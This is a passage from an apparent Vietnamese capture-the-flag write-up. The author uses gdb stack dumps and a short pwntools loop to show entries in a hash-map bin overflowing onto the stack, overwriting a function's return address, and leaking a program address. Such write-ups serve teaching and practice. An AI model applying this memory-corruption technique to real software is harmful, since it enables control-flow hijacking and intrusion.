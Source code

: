 ```java
0x7fffffffde40: 0x0000000000000000      0x41414141414141c3
0x7fffffffde50: 0x00000000000a4141      0x000000000001869f
0x7fffffffde60: 0x0000000000000000      0x0000000000000000
0x7fffffffde70: 0x0000000000000000      0x0000000000000000
...
0x7fffffffe020: 0x0000000000000000      0x0000000000000a31
0x7fffffffe030: 0x0000000000000000      0x0000000000000063
0x7fffffffe040: 0x0000000000000000      0x0000000000000000
0x7fffffffe050: 0x0000000000000000      0x0000000000000000
0x7fffffffe060: 0x0000000000000000      0x0000000000000000
0x7fffffffe070: 0x0000000000000000      0x0000000000000000
```
Vậy thì khá chắc `squirrel` thứ 5 mà ta tạo sẽ bị ghi đè lên 1 phần nào đó trong `stack`. Ngay dưới vị trí lưu `nomal map` mình thấy cái này

```java
0x7fffffffe020: 0x0000000000000000      0x0000000000000a31
0x7fffffffe030: 0x0000000000000000      0x0000000000000063
0x7fffffffe040: 0x0000000000000000      0x0000000000000000
0x7fffffffe050: 0x0000000000000000      0x0000000000000000
0x7fffffffe060: 0x0000000000000000      0x0000000000000000
0x7fffffffe070: 0x0000000000000000      0x0000000000000000
0x7fffffffe080: 0x0000000000000000      0x00005555555592a0
0x7fffffffe090: 0x00007fffffffe0a0      0x00005555555559c0
```
Bên dưới `bin 9` của `nomal map` có vẻ như là các địa chỉ gì đó 

```java
gef➤  x/i 0x00005555555592a0
   0x5555555592a0:      add    BYTE PTR [rax],al
gef➤  x/i 0x00007fffffffe0a0
   0x7fffffffe0a0:      add    BYTE PTR [rax],al
gef➤  x/i 0x00005555555559c0
   0x5555555559c0 <main+130>:   mov    eax,0x0
```
Duy chỉ có địa chỉ sau cùng là địa chỉ trỏ về vị trí nào đấy trong main. Và đó là `retAddr` của `loop`. Khi chương trình diễn ra bình thường thì sau khi `loop` hoàn thành, nó sẽ nhảy vào địa chỉ đấy trong `main` và kết thúc chương trình.

```java
0x00005555555559bb <+125>:   call   0x5555555556c9 <loop>
0x00005555555559c0 <+130>:   mov    eax,0x0
```
Mình thử lấp đầy 5 squirrel vào bin 9 để xem điều gì xảy ra =))
```python
    for i in range(5):
    p.sendlineafter(b'> ', b'1')
    p.sendlineafter(b'name: ', b'1'+b'2'*i) 
    p.sendlineafter(b'them: ', b'99')
    # mình chọn 1 và 2 bởi vì 1 qua hash cho index 9 còn 2 thì ra 0
```
```java
0x7fffffffe020: 0x0000000000000000      0x00000000000a3231
0x7fffffffe030: 0x0000000000000000      0x0000000000000063
0x7fffffffe040: 0x000000000a323231      0x0000000000000000
0x7fffffffe050: 0x0000000000000063      0x0000000a32323231
0x7fffffffe060: 0x0000000000000000      0x0000000000000063
0x7fffffffe070: 0x00000a3232323231      0x0000000000000000
0x7fffffffe080: 0x0000000000000000      0x000a323232323231
0x7fffffffe090: 0x0000000000000000      0x0000555555555a23  <==
```
Bùm :) retAddr (tại 0x7fffffffe098) của `loop` đã bị `overwrite`. Giá tri mới sẽ bằng 0x00005555555559c0 + 99. Nghĩa là nếu ta cho lượng `weight = 0` thì có thể leak đc địa chỉ này vì lúc tạo `squirrel` nó sẽ có thông báo.
